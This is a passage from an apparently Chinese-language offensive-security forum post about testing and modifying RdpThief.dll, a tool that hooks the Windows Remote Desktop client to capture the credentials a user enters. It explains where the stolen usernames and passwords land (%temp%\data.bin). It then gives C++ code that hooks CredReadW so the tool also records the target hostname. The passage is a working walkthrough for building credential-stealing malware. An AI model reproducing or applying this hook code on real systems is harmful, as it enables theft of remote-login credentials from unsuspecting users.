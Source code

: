 先打开`win+r`-&gt;`mstsc`打开远程桌面，然后运行上面代码，运行结束后，再点连接输入密码。连接成功后，在`temp`目录下就可以看到生成的`data.bin`了

> `win+r`，输入`%temp%`可以打开临时目录。因为`RdpThief.dll`把抓到的账号密码放到了临时目录下的`data.bin`，所以我们要看这里。

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-eb947dfe260f5012134ecd9748b1e86b2490c093.png)

ok，至此，我们已经知道怎么测试 RdpThief.dll 了。

### 修改 RdpThief

所以，接下来就是修改 RdpThief 了。RdpThief 使用把`SspiPrepareForCredRead`拦截主机名，这里把 `SspiPrepareForCredRead` 修改成 `CredReadWStub` 拦截主机名。

还记得之前我们咋找到 MessageBoxW 的定义吗？这里也一样，随便找个地方，直接输入`CredReadWStub`，尴尬的是，只有`CredReadW`没有`CredReadWStub`，这点倒是和WinDbg中的不一样，和 API Monitor中的一样。确实把我搞蒙了，如果有大佬知道，麻烦告知一下。

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e84a05abbf2caf578fb1bdac87e46d376e037217.png)

那既然没有`CredReadWStub`，那就用`CredReadW`呗，右键-&gt;转到定义，拿到了如下的定义。

```cpp
WINADVAPI
BOOL
WINAPI
CredReadW (
    _In_ LPCWSTR TargetName,
    _In_ DWORD Type,
    _Reserved_ DWORD Flags,
    _Out_ PCREDENTIALW *Credential
    );
```

所以简单改改，函数指针就有了。

```cpp
static BOOL (WINAPI * OriginalCredReadW)(_In_ LPCWSTR TargetName, _In_ DWORD Type, _Reserved_ DWORD Flags, _Out_ PCREDENTIALW* Credential) = CredReadW;
```

然后仿造这个函数声明，定义一个`HookedCredReadW`函数，函数里面只把参数`TargetName`赋值给全局变量`lpServer`就行。整体如下：

> 这个全局变量就是之后写入文件中的主机名了

```cpp
static BOOL (WINAPI * OriginalCredReadW)(_In_ LPCWSTR TargetName, _In_ DWORD Type, _Reserved_ DWORD Flags, _Out_ PCREDENTIALW* Credential) = CredReadW;

BOOL HookedCredReadW(_In_ LPCWSTR TargetName, _In_ DWORD Type, _Reserved_ DWORD Flags, _Out_ PCREDENTIALW* Credential)
{
    // 拿到主机名
    lpServer = TargetName;
    // 其他不变，调用原来的函数
    return OriginalCredReadW(TargetName, Type, Flags, Credential);
}
```
